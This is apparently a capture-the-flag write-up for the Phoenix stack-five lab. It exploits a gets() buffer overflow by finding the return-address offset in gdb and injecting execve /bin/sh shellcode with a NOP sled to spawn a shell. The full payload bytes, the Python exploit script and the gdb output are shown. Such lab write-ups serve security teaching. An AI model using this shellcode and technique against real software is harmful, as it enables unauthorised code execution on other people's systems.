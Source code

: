 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Stack Four :
In this level we need to execute a shellcode to do that we need to overflow the buffer and overwite the return address of `start_level` function to a region in memory we have control of like the stack.We will use a linux/x86-64 [shellcode](https://shell-storm.org/shellcode/files/shellcode-806.html) because I'm working in `amd64` folder in the virtual machine.
<br>
First we need to find how many bytes we need to reach the return address in the stack. Run gdb with the binary `stack-five` and set the breakpoint at the end of the `start_level` function disassembly.
```bash
gdb stack-five
(gdb) disas start_level

Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
End of assembler dump.

(gdb) b *start_level+22

Breakpoint 1 at 0x4005a3
```
Now we can generate a pattern to use it as input to the buffer. Go to [zerosum0x0 blog](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) to generate the string and copy the result. Run the program from gdb:
```bash
(gdb) run

Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Breakpoint 1, 0x00000000004005a3 in start_level ()
```
Examin the stack
```bash
(gdb) x/8wx $rsp
0x7fffffffe518:	0x65413565	0x37654136	0x41386541	0x66413965
0x7fffffffe528:	0x31664130	0x41326641	0x66413366	0x35664134
```
We can use python to get the ascii from hex value `0x65413565`
```python
import struct
string = struct.pack('I', 0x65413565)
print(string.decode('ascii'))
```
```bash
python3 -c "import struct;string = struct.pack('I', 0x65413565);print(string.decode('ascii'))"

e5Ae
```
Copy `e5Ae` and go to pattern generator and use it to find the offset. The offset is 136 bytes from the start of `buffer` to the return address in the stack.Lets redirect the program flow to the stack after the return address. The return address at `0x7fffffffe518` and we will jump to `0x7fffffffe520` because the return address is 8-bytes.Put a breakpoint instruction `0xcc` after the jump to see if it works fine.
```bash
python3 -c "import struct ; print((b'A'*136 )+ (struct.pack('L', 0x7fffffffe520)) + b'\xcc\xcc\xcc\xcc' )"

b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \xe5\xff\xff\xff\x7f\x00\x00\xcc\xcc\xcc\xcc'
```
Create a text file and echo the string to the new text file using `echo -e`. The `-e` options is used to enable interpretation of backslash escapes.
```bash
cat > data.txt
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \xe5\xff\xff\xff\x7f\x00\x00\xcc\xcc\xcc\xcc" > data.txt 


```
Now delete the breakpoints in gdb and run the program using `data.txt` as input and see if we get a breakpoint `SIGTRAP` :
```bash
(gdb) d breakpoints
(gdb) run < data.txt

Starting program: /opt/phoenix/amd64/stack-five < data.txt
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffe521 in ?? ()
```
Now append the shellcode to the string in `data.txt` and replace the INT3 `0xcc` instruction to NOP `0x90`:
```python
import struct
padding = b'A'*136 
return_add = struct.pack('L', 0x7fffffffe520) 
nop =  b'\x90\x90\x90\x90'
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

print(padding + return_add + nop + shellcode)
```
Run the script, copy the result, echo it to `data.txt` and run the program:
```bash
echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA \xe5\xff\xff\xff\x7f\x00\x00\x90\x90\x90\x901\xc0H\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0f\x05" > data.txt
gdb stack-five
(gdb) run < data.txt
tarting program: /opt/phoenix/amd64/stack-five < data.txt
Welcome to phoenix/stack-five, brought to you by https://exploit.education
process 494 is executing new program: /bin/dash
[Inferior 1 (process 494) exited normally]
```
Yarbi lak al7md, the program executes the shellcode and run `/bin/dash` - its a replacement of `bash` in Ubuntu/Debian for its small size and speed- successfully.The reason that the shell is not interactive because every shell needs input from standard input but we redirect the `stack-five` standard ouput to the shell standard input and when `stack-five` terminates it closed that pipe.A trick to use is the `cat` command to relay input to the shell.
```bash
(python exploit.py ; cat) | ./stack-five

Welcome to phoenix/stack-five, brought to you by https://exploit.education
ls
data.txt  exploit.py  final-two   format-four  format-three  format-zero  heap-three  heap-zero  net-two   stack-five  stack-one  stack-three  stack-zero

who
user     pts/0        Dec 20 05:50 (10.0.2.2)

whoami  
phoenix-amd64-stack-five
```

### It Does Not Work Outside of GDB??!!
I don't know why but sometimes it does not work outside GDB resulting in segmentation fault to work around this issue I tried deeper stack address and more `NOP` sliding. `exploit.py` has the stack address and `NOP` that work fine in virtual machine.
